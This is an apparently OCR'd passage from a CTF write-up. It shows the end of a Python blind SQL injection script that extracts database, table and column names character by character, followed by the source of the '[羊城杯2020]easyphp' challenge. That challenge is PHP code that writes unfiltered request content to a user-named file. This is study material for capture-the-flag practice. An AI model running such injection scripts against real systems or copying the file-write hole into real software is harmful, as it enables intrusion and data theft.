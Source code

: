 ```python
            right = mid
        mid = left + ((right-left)>>1)#右移1，代表除2 可以直接mid=（left +right）//2
    if mid == 31 or mid == 127:
        break
    res += chr(mid)#chr函数。ascii转化为字符
    print(str(mid),res)
    time.sleep(1)
# information_schema,ctftraining,mysql,performance_schema,test,ctf,F4l9_D4t4B45e
#F4l9_t4b1e
#F4l9_C01uMn
```

## [羊城杯2020]easyphp

```php
<?php
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    if(!isset($_GET['content']) || !isset($_GET['filename'])) {
        highlight_file(__FILE__);
        die();
    }
    $content = $_GET['content'];
    if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
        echo "Hacker";
        die();
    }
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) {
        echo "Hacker";
        die();
    }
    $files = scandir('./'); 
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nHello, world");
?>
```
